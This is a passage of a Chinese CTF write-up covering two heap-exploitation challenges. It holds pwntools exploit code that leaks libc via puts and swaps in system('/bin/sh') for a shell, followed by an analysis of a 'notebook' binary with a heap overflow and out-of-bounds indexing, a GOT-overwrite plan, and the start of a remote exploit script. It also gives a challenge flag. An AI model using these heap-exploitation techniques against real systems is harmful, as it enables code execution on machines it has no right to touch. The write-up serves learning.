 ```python
addinfo(0x10,'a'*8)#因为上面后free的是message堆，因此info[1]申请的是info[0]->message，info[1]->message申请的是info[0]
showinfo(1)#由于info[1]->message申请的是info[0]，因此后8字节是puts函数地址，从而leak libc
ru('a'*8)
puts_addr=ru('\n',True)
puts_addr=u64(puts_addr+'\x00\x00')
libcbase=puts_addr-libc.sym['puts']
print hex(libcbase)
libc.address=libcbase

addinfo(0x10)
delinfo(2)
addinfo(0x10,p64(libc.search('/bin/sh').next())+p64(libc.sym['system']))#重新申请，参考上面的操作，把info->message改为'/bin/sh'地址，puts函数地址改为system函数地址
showinfo(2)#通过show功能触发system函数
shell()

```

PS：本题题目跟国赛一致，都是double，但利用方法都不是double free。本题flag为Aurora{n0t_double_free_bu7_double_types_2333}。意在说明double并不一定是指double free，有可能是指两种堆的类型double type，不要被惯性思维了，因此这题也算类型混淆的一种。



## child heap

##### checksec分析

```
[*] '/home/ljb/ctf/aurora/notebook/notebook'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

##### IDA F5分析（本题IDA分析文件也在链接中）

主要功能：

1. new，按照输入的大小申请堆，在全局数组record中，先存size，再存堆地址。注意题目中写的read函数需要输入回车来结束，否则长度不够就会直接exit(1)。
2. edit，先输入index，再输入大小，然后对record中index对应的堆内容进行编辑。这里对输入大小不检查，因此存在堆溢出。
3. delete，输入index，释放堆，同时把record中的size和堆地址置0。这里存在数组越界。
4. look，输入index，查看对应堆信息。这里同样存在数组越界。

##### 解题思路：

由于存在堆溢出，且对申请堆的size无限制，因此可以考虑fastbin attack中的Arbitrary Alloc，伪造堆到全局数组record中，从而控制record的内容。由于没有开启FULL RELRO，因此可以考虑改GOT表。把free改成system从而get shell。

##### exp:

```python
from pwn import *
elf=ELF("notebook")
#io=elf.process()
#io=elf.process(,env={'LD_PRELOAD':'.so'})
io=remote("123.207.32.26",9003)
libc=elf.libc
#libc=ELF("")
context.log_level='debug'

sla=io.sendlineafter
sl=io.sendline
sa=io.sendafter
ru=io.recvuntil
shell=io.interactive
```